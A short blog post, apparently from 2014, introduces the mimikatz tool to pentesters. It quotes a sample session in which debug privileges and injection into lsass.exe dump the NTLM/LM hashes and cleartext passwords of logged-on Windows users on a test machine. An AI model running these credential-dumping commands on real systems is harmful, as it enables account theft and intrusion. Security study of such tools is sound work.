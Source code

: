 ```yaml
---
layout: post
title: "Mimikatz"
modified:
categories: 
excerpt:
tags: []
image:
  feature:
date: 2014-11-23T17:30:31+04:00
---
```

Here’s a brief post about very cool feature of a tool called mimikatz.
I’m very grateful to the tool’s author for bringing it to my attention. Until that point, I didn’t realise it was possible to recover the cleartext passwords of logged on windows users. Something that I’m sure most pentesters would find very useful.

> Here’s some sample output provided by the author:

{% highlight text %}
mimikatz 1.0 x86 (pre-alpha)    /* Traitement du Kiwi */

mimikatz # privilege::debug
Demande d'ACTIVATION du privilège : SeDebugPrivilege : OK

mimikatz # inject::process lsass.exe sekurlsa.dll
PROCESSENTRY32(lsass.exe).th32ProcessID = 488
Attente de connexion du client...
Serveur connecté à un client !
Message du processus :
Bienvenue dans un processus distant
                        Gentil Kiwi

SekurLSA : librairie de manipulation des données de sécurités dans LSASS

mimikatz # @getLogonPasswords

Authentification Id         : 0;434898
Package d'authentification  : NTLM
Utilisateur principal       : Gentil User
Domaine d'authentification  : vm-w7-ult
        msv1_0 :        lm{ e52cac67419a9a224a3b108f3fa6cb6d }, ntlm{ 8846f7eaee8fb117ad06bdd830b7586c }
        wdigest :       password
        tspkg :         password

Authentification Id         : 0;269806
Package d'authentification  : NTLM
Utilisateur principal       : Gentil Kiwi
Domaine d'authentification  : vm-w7-ult
        msv1_0 :        lm{ d0e9aee149655a6075e4540af1f22d3b }, ntlm{ cc36cf7a8514893efccd332446158b1a }
        wdigest :       waza1234/
        tspkg :         waza1234/
{% endhighlight %}
---
